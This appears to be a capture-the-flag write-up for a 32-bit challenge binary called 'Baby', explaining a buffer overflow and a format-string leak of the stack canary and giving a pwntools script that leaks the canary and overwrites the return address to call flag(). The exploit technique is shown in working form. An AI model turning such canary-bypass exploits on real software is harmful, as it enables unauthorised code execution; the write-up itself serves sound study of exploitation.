 # Baby
```
How do you tackle cookies?

nc challenge1.lagncrash.com 10000
```
32 bit binary with canary
Partial RELRO possible got.plt overwrite?
<br>
![](./1.png)
<br>
From ghidra we can see it reads in 512 char but only allocates 100 char to local_74 hence a buffer overflow & a printf() which is an indication of a possible format string vulnerability.
<br>
![](./2.png)
<br>
Location of stack canary(ebp-0xc):
<br>
![](./3.png)
<br>
Using format string exploit which the canary value is shown on the 31th
<br>
![](./4.png)
<br>
Canary value:
<br>
![](./5.png)
<br>
From: https://guyinatuxedo.github.io/7.1-mitigation_canary/index.html
<br>
![](./6.png)
<br>
Getting flag() address from ghidra(0x080491d2):
<br>
![](./7.png)
<br>
```
from pwn import *
import codecs

#binary = remote("challenge1.lagncrash.com", 10000)
binary = process('./baby')
binary.recvline()

fsb = "%31$x"                 #Gets canary value
binary.sendline(fsb)

canary = binary.recv()[:-1]   #remove newline
print("Canary @ " + canary)

#Convert 41414242 to AABB then inverts it BBAA 
while len(canary) != 8:canary="0"+canary
canary = codecs.decode(canary, 'hex_codec')
canary = canary[::-1]
#gdb.attach(binary)

#View bottom
binary.sendline("\x90"*100+canary+"\x90"*12+p32(0x080491d2))
print(binary.recv())
#binary.interactive()
#binary.close()
```
Overwrites return address to canary address, which returns to main(0x0849363) hence overwriting the 12 char and then the flag address(0x080491d2)
<br>
![](./8.png)
<br>
